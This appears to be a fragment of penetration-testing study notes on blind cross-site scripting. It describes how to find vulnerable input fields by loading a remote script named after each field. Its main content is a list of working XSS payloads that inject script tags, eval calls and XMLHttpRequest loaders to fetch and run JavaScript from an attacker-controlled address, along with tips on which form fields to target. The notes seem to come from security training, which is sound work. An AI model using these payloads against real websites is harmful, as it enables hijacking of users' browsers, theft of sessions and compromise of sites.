 To know which input fields are vulnerable, we can try loading a remote `js` file from our machine and changing the request to be the name of the input field i.e. `<script src=http://OUR_IP/username></script>`


> [!NOTE] Note
> Blind XSS has a higher success rate with DOM XSS type of vulnerabilities because of the ability to read the source code and creating a payload based off of it.


## TEST ALL PAYLOADS
```js
<script src=http://10.10.14.7></script>
'><script src=http://10.10.14.7></script>
"><script src=http://10.10.14.7></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```

> [!NOTE] Note
> For registration forms, email fields are less likely to be vulnerable due to the format requirements being validated by front and back ends. Same with passwords as they'll be hashed
